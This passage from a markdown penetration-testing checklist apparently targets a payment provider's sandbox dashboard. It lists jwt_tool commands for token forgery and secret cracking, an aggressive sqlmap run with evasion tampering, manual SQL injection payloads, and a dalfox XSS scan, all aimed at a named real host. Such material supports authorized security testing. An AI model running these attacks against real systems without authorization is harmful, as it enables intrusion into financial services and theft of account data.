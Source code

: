 **JWT Token Tests (if applicable):**

```bash
# Decode JWT
jwt_tool YOUR_TOKEN

# Test "none" algorithm
jwt_tool YOUR_TOKEN -X a

# Test weak secret
jwt_tool YOUR_TOKEN -C -d /usr/share/wordlists/rockyou.txt

# Test tampering
jwt_tool YOUR_TOKEN -T
```

---

### 5. Injection Attacks ⭐⭐⭐⭐

**Priority:** HIGH

**SQL Injection:**

```bash
# Automated testing with SQLmap
sqlmap -u "https://manage-sandbox.gocardless.com/search?q=test" \
  --cookie="session=YOUR_SESSION" \
  --level=5 \
  --risk=3 \
  --batch \
  --random-agent \
  --tamper=space2comment \
  -o scans/sqlmap-results.txt

# Test all input fields:
# - Search boxes
# - Filter parameters
# - Sort parameters
# - Date ranges
# - Export functions

# Manual payloads:
' OR '1'='1
' OR '1'='1'--
' OR '1'='1'/*
admin'--
' UNION SELECT NULL--
' AND 1=1--
```

**XSS (Cross-Site Scripting):**

```bash
# Automated XSS scanning
dalfox url https://manage-sandbox.gocardless.com/search?q=FUZZ \
  --cookie="session=YOUR_SESSION" \
  -o scans/xss-results.txt

# Test all input fields:
# - Profile name
# - Company name
# - Customer names
# - Payment descriptions
# - Notes/Comments
# - Webhook URLs
# - Custom fields
```